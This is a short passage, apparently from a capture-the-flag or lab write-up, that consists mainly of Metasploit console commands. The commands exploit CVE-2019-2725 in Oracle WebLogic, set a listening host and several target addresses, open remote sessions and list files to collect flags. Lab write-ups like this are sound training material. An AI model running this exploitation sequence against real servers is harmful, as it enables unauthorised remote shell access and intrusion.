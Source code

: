 ![](../img/DaleChu/neo_sl.png)

![](../img/DaleChu/404_nf.png)


```shell
# search exploit
search cve-2019-2725

# getshell
use 0

set lhost 192.168.5.135

set RHOSTS 192.175.84.2
# set RHOSTS 192.175.84.3
# set RHOSTS 192.175.84.4
# 分别设置不同的靶机 IP 

show options

# 分别 run
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5

```
